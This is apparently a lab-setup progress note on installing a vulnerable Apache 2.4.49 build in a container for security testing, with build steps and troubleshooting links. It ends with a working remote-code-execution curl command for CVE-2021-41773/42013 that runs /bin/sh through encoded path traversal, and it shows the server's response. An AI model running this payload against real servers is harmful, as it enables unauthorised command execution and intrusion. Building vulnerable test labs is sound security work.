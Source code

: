 # Progress So Far

## Apache Files for Download

1. First Link: https://httpd.apache.org/security/vulnerabilities_13.html
2. Critial Search: https://www.google.com/search?client=firefox-b-1-d&q=Apache%2F1.3.31+vulnerabiliteis
3. Where to find old versions: https://archive.apache.org/dist/httpd/binaries/linux/

## Loosened Permissions

1. Had to loosen the following:
    - capabailities
    - mounts
    - resources
    - syscalls

## Key Testing Note

1. Similar to JuiceShop have to make the mountdir the uid/gid of the container, otherwise we can't write.

For instance notice the 10000 here:

```sh
drwxrwxr-x  8 sikeboy sikeboy 4096 Jun  5 22:48 dvwa_dir
drwxrwxr-x 32   10000   10000 4096 Jun  7 21:08 juice-shop
```

## How to Install dependencies

```sh
sudo apt install nmap
# Add the metasploitable install below
```

## How to Install Apache

Prior to this you have to make these in the host:

```sh
 sudo chown -R 10000:10000 /usr/local/apache2/
```

Download and Extract APR and APR-Util

    Download APR and APR-Util:
    Download the APR and APR-Util source packages.

```sh

wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz
wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz
```

Extract APR and APR-Util:
Extract the downloaded tarballs and place them in the srclib directory of the Apache source tree.

```sh

tar -xvzf apr-1.7.0.tar.gz
tar -xvzf apr-util-1.6.1.tar.gz
mv apr-1.7.0 httpd-2.4.49/srclib/apr
mv apr-util-1.6.1 httpd-2.4.49/srclib/apr-util
```

```sh
bash ./configure --prefix=/usr/local/apache2 --with-pcre=/usr/local/pcre/bin/pcre-config --with-included-apr
export PATH=$PATH:/usr/bin
make
make install
```

## After must change the Listen and Server

```sh
nano /usr/local/apache2/conf/httpd.conf
```

Then in the file do:

```sh
Listen 172.18.0.2:3000
ServerName 172.18.0.2:3000
```

After saving and exiting the file execute these:

```sh
/usr/local/apache2/bin/apachectl -k restart
/usr/local/apache2/bin/apachectl -k start
```


## Simple fix to add gcc libraries

```sh
export PATH=$PATH:/usr/bin
```

## How to Install pcre (Must Be Done on LocalHost)

```sh
sudo apt-get install -y libpcre3 libpcre3-dev
```

## How to Install apr and apr-util (Apache Runtime)

Download both:

- apr-util-1.6.3.tar.gz
- apr-1.7.4.tar.gz

## Helpful Troubleshooting Sites

1. https://www.linuxfromscratch.org/blfs/view/svn/general/apr.html
2. https://docs.oracle.com/cd/B13789_01/server.101/q20201/install.html
3. https://www.linuxfromscratch.org/blfs/view/svn/general/apr-util.html
4. https://stackoverflow.com/questions/13967114/configure-error-apr-not-found-please-read-the-documentation
5. https://apr.apache.org/download.cgi 
6. https://archive.apache.org/dist/httpd/ 
7. https://docs.oracle.com/cd/B13789_01/server.101/q20201/install.html
8. https://forums.centos.org/viewtopic.php?t=56062 

## Using the Exploits 

## RCE exploit both for Apache 2.4.49 (CVE-2021-41773) and 2.4.50 (CVE-2021-42013):

IMHO only "special" setups will be vulnerable to this RCE.\
Same happens for the "arbitrary file read" exploits you have seen.

Both CVEs are indeed almost the same path-traversal vulnerability (2nd one is the uncomplete fix for 1st one).\
Path traversal only work from a mapped URI (e.g. via "Alias" or "ScriptAlias" Apache directives). DocumentRoot only is not sufficient.

"/cgi-bin/" is mapped by default (ScriptAlias) so that's why it's being used before the path traversal string.\
Besides, ScriptAlias marks as Exec (for Apache) all the contents for the given directory (regardless the file extensions).

### Requirements:
1. mod_cgi enabled (not default but easy)\
2. target binary should be +x (default for /bin/sh)\
3. apache permissions granted for /bin or / (not default and difficult/unrealistic)\

### Check if server is vulnerable:
`curl 'http://IPADDR/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; id'`

### Response from a vulnerable server:
`uid=1(daemon) gid=1(daemon) groups=1(daemon)`
